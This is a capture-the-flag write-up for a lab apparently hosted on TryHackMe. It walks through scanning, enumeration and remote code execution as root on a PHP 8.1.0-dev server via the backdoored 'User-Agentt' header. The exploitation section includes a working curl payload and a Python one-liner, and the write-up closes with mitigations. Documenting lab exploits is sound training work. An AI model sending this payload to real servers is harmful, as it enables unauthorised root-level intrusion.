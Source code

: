 [PHP Exploit - User-Agentt RCE](https://tryhackme.com/room/agentt)

**Difficulty:** Easy 
**Objective:** Exploit vulnerable PHP version to gain remote code execution and capture the flag.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.X.X  
**Service/Ports:** 80/HTTP  
**Entry Point:** PHP 8.1.0-dev via User-Agentt header  
**Privilege Escalation:** Not required (root shell from exploit)  
**Outcome:** Remote command execution and flag captured

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
### Passive: None  

### Active: Ran Nmap with full version detection.  
Command used: nmap -sS -sV -A -Pn 10.10.X.X  
Result: Port 80 open, running PHP cli server 5.5 or later (PHP 8.1.0-dev)

---

## 4. Enumeration  
- Gobuster, initially showed nothing  
- Explored the website manually; page was static and non-interactive  
- Tried XSS and path traversal payloads — nothing worked  
- Found image URL in GET request: https://source.unsplash.com/Mv9hjnEUHR4/60x60 (stock image, not exploitable)  
- Revisited Nmap scan and focused on PHP version  
- Found public exploit for PHP 8.1.0-dev

---

## 5. Exploitation  
Vulnerability: PHP 8.1.0-dev evaluates the User-Agentt header as PHP code  
Exploit: Exploit-DB 49933  
Technique: Send HTTP request with header User-Agentt: system('id');  
Result: Command executed remotely on the server  
Example request: curl -H "User-Agentt: system('id');" http://10.10.X.X  
Python PoC: requests.get(url, headers={"User-Agentt": "system('id');"})  
Access: Code executed as root

---

## 6. Privilege Escalation  
Not required. Initial code execution was already under root privileges.

---

## 7. Post Exploitation  
Searched for flag with: find / -name "flag*" 2>/dev/null  
Enumerated file system  
No pivoting necessary due to root access

---

## 8. Flags / Proof  

Other Credentials: N/A

---

## 9. Mitigations  
| Vulnerability                     | Risk  | Suggested Mitigation                         |  
|----------------------------------|-------|-----------------------------------------------|  
| PHP 8.1.0-dev code execution     | High  | Do not run development versions in production |  
| Arbitrary header interpretation | High  | Sanitize and validate all HTTP headers         |  
| Lack of privilege separation     | High  | Run web services as limited users             |

---

## 10. Notes  
Time spent: ~30 min
Tools used: nmap, gobuster, curl, Python (requests)  
Lessons learned: Always check the exact version of services; developer versions can introduce dangerous behavior like arbitrary code execution via headers.





















